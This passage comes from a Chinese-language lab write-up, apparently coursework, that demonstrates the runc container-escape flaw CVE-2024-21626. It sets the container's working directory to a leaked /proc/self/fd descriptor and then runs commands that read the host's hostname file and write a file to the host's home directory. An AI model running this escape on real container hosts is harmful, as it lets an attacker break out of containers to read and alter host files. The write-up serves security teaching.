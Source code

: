    > -w：指定容器的工作目录。
   >
   > --name：为容器指定一个名称。
   >
   > --rm：当容器退出时自动删除它。
   >
   > https://docs.docker.com/reference/cli/docker/container/run/

   将容器的工作目录设置为 `/proc/self/fd/<fd>` ，`<fd>`表示在主机文件系统中打开 `/sys/fs/cgroup` 时的文件描述符。当运行一个容器时，`<fd>`通常是7或8。

2. 尝试读取主机文件内容。

   ```shell
   # cat ../../../../etc/hostname
   ```

   能够读取主机文件`hostname`中的内容：xiaozhenran-virtual-machine。

   ![](.\攻击方式1-1.png)

3. 尝试写入主机文件。

   ```shell
   # echo "Hello Computer System Security 2024!" > ../../../../home/xiaozhenran/cve-2024-21626.txt
   ```
   
   能够写入内容到宿主机文件：Hello Computer System Security 2024!

   ![](.\攻击方式1-2.png)
